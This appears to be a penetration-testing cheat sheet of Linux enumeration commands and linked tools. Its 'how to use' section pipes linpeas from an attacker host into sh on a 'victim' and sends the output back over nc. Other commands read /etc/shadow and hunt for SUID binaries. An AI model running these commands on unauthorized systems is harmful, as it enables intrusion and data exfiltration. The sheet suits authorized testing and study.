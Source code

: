 ## manual

- user-related
    - whoami
    - id
    - id <user>
    - who
    - w
    - last
- system-related
    - uname -a
    - lsb_release -a
    - cat /proc/version
    - cat /etc/issue
    - hostnamectl, hostname
    - ps -ef, ps aux, ps axjf
    - top -n 1
- network-related
    - ip a, ifconfig
    - ip route, route
    - ip neigh, arp -a
    - netstat -a, netstat -l, netstat -at, netstat -au
    - netstat -s
    - netstat -ano
- priviledge-related
    - sudo -l
    - getcap -r / 2>/dev/null
    - cat /etc/passwd
    - cat /etc/shadow
- usage-related
    - ls -liah
    - history
- schedule-joibs
    - cat /etc/crontab
- environment
    - echo $PATH
    - env
    - which python gcc ruby perl find netcat nc wget curl ftp tmux screen 2>/dev/null
- find / -perm -u=s -type f 2>/dev/null
- cat /etc/fstab

## script

- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
- [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)

### how to use

```bash
# from network
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# from local, curl
sudo python -m http.server 80 # on host
curl <host>/linpeas.sh | sh   # on victim

# by nc
sudo nc -q 5 -lvnp 80 < linpeas.sh # on host
cat < /dev/tcp/<host>/80 | sh      # on victim
```

```bash
# execute on victim and send output back to host
nc -lvnp 8899 | tee linpeas.out                # on host
curl <host>/linpeas.sh | sh | nc <host> 8899   # on victim
cat < /dev/tcp/<host>/80 | sh | nc <host> 8899 # on victim
```